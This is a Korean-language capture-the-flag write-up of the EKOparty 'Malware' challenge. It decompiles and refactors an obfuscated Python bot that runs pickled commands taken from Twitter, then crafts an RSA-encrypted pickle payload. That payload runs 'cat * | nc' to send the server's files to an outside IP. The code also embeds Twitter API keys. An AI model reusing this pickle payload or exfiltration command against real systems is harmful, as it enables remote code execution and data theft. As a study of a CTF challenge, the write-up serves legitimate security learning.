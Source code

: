 ============================================================================================================
[EKOparty] Malware
============================================================================================================

.. uml::
    
    @startuml

    start

    :디컴파일;

    :리펙토링;

    :소스 분석;

    :역수행;
    
    stop

    @enduml

|

디컴파일 (pyc -> py)
============================================================================================================

압축 파일을 다운 받은 뒤 풀어보니 pyc파일 형식입니다.

pyc를 `uncompyle2`_ 를 통해 디컴파일 해줍니다. 

.. _`uncompyle2`: https://github.com/wibiti/uncompyle2

디컴파일한 코드는 다음과 같습니다.

.. code-block:: python

    # Embedded file name: ekobot_final.py
    import os
    import sys
    import httplib2
    import cPickle
    from Crypto.PublicKey import RSA
    from base64 import b64decode
    from twython import Twython
    
    if 0:
        i11iIiiIii
        OO0o = 'ekoctf'
    
    if 0:
        Iii1I1 + OO0O0O % iiiii % ii1I - ooO0OO000o
    if len(sys.argv) != 2:
        os._exit(0)
        if 0:
            IiII1IiiIiI1/ iIiiiI1IiI1I1

    ##### 중략 #####

    IiIi[0:5] == 'eko11':
        cPickle.loads(IiIiIi[5:])
        os._exit(0)
        if 0:
            iii1II11ii.Oo.iIiiiI1IiI1I1.ii1I

        except Exception as OOooO:
            print str(OOooO)
            if 0:
                ii1II11I1ii1I+ ooO0OO000o % i11iIiiIii.o0oOoO00o - IiII1IiiIiI1

    oo(oo00)

|

리펙토링
============================================================================================================

디컴파일 코드 가독성을 높이기위해 변수명을 수정하고, 필요없는 코드(if 0:)들을 수정해줍니다.

.. code-block:: python

    import os
    import sys
    import httplib2
    import cPickle
    from Crypto.PublicKey import RSA
    from base64 import b64decode
    from twython import Twython

    if len(sys.argv) != 2:
        os._exit(0)

    input_file = sys.argv[1]

    def read_file1():
        input = 0
        if os.path.isfile(input_file):
            try:
                fileopen = open(input_file, 'r')
                input = int(fileopen.readline(), 10) 
            except:
                input = 0

        return input

    def main(twid):
        try:
            fileopen = open(input_file, 'w')
            fileopen.write(str(twid))
        except:
            print 'error'

    def response_data(url):
        httplist = httplib2.Http('')
        res_header, res_data = httplist.request(url, 'GET')
        if res_header.status == 200:
            try:
                if res_header['content-type'][0:10] == 'text/plain':
                    return res_data
                return 'Err'
            except:
                return 'Err'

        else:
            return url

    def dec(cipher_text):
        try:
            rsa_key = RSA.importKey(open('ekobot.pem').read())
            decode_data = b64decode(cipher_text)
            iiiI11 = rsa_key.decrypt(decode_data)
            return iiiI11
        except Exception as error_page:
            print str(error_page)
            return 'Err'

    twitter = Twython('ienmDwTNHZVR9si4SzeCg1glB', 'TTlOJrwq5o9obnRyQXRyaOkRoYUBTrCzN9j9IHX0Bc4dS2xBHN', oauth_version=2)
    twitter_token = twitter.obtain_access_token() 
    twitter = Twython('ienmDwTNHZVR9si4SzeCg1glB', access_token=twitter_token)

    input = read_file1()
    searching = twitter.search(q='#ekoctf', rpp='250', result_type='mixed', since_id=input) 


    for status1 in searching['statuses']:
        if status1['id'] > input:
            input = status1['id']

        n = 0
        try:
            for hashtag1 in status1['entities']['hashtags']:
                if hashtag1['text'] == 'ekoctf':
                    n = 1

            if n == 1:
                for url1 in status1['entities']['urls']:
                    if os.fork() == 0:
                        decrypt = dec(response_data(url1['url']))
                        if decrypt[0:5] == 'eko11':
                            cPickle.loads(decrypt[5:])
                        os._exit(0)

        except Exception as error_page:
            print str(error_page)

    main(input)
 
|


소스 분석
============================================================================================================

이제 코드를 확인해보면 Twython이라는 모듈을 먼저 쓰고 있는걸 볼 수 있습니다. Twitter의 공식 API의 기본 래퍼를 파이썬으로 제작한 것입니다. 
코드 진행 순서는 다음과 같습니다.

- Twitter에 ekoctf 태그로 url부분에 대한 검색을 통해 content-type이 text/plain일 경우, reponse data를 추출

- 추출한 response data를 rsa private key ekobot.pem을 통해 복호화 진행

- 복호화한 데이터 header 값에 'eko11'이 있을 경우, 그 뒤 복호화한 데이터를 cPickle.loads을 통해 명령 실행

twitter를 통해 원하는 명령을 실행할 수 있는 프로그램 형태입니다. 
우선 Public Key를 알아야 해당 문제를 해결할 수 있기 때문에 twitter에서 #ekoctf로 검색을 하니 다음 주소에 Public Key가 있는 걸 확인할 수 있습니다. (https://twitter.com/NullLifeTeam/status/657208358408204288))

.. code-block:: text

    -----BEGIN PUBLIC KEY-----
    MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAmWw84H8BSPG1Ispn1hBP
    WZ4ORxniLhOl76aOAsGsqdRZJyL+PFLWedGUx0ELwzf3vWQ2wMDwN37MZYWdS4z8
    WT6P4FRtK09UtDgqNUQdx49WBqDf2GmIT+uBwMQBUCe3x+RTVcwDzA1I0mPtJj3K
    6bGdmSSBZjgc6MA4rJil7xdSVP5Pedb8MZMKk/5tXmFl3gFjykkUfG+DbmsxulZ4
    8D+IoIU6bVWAkael+ftZtDWY43XkezD2swV01Eaw4J7MzBakPDA6KipxNhKQZ2xo
    eEsP2p8L67qF48eUbxI1ukcrqdy0c92rSihmChGBmHQ2AREshtTTLpM24/Nrirje
    /QIDAQAB
    -----END PUBLIC KEY-----

|

역수행
============================================================================================================

이제 Public Key를 이용해 사용하고자 하는 명령을 RSA로 암호화하여 , twitter에 raw data 형식으로 글을 올리면 됩니다.

본 문서에서는 cat *|nc local_ip 8000 라는 명령을 통해 해당 서버 디렉토리에 파일들을 볼 수 있도록 하겠습니다. 여기서 주의할 점은 파일 명령 앞부분에 "eko11"을 넣어주어야 정상적으로 서버에서 복호화 진행이 될 수 있습니다.

.. code-block:: python

    from Crypto.PublicKey import RSA
    from base64 import b64decode,b64encode
     
    key=RSA.importKey(open('pub.pem').read())
    exploit="eko11"+"cos\nsystem\n(S'cat * | nc 182.70.222.238 8000'\ntR.'\ntR."
    txt=key.encrypt(exploit,32)[0]
    final=b64encode(txt)
    print final
 
그리고 local에서는 while true; do nc -l -n -v -p 8000 ; done 이라는 명령을 입력하고 기다리면 해당 서버 디렉토리 파일 내용을 확인할 수 있습니다.

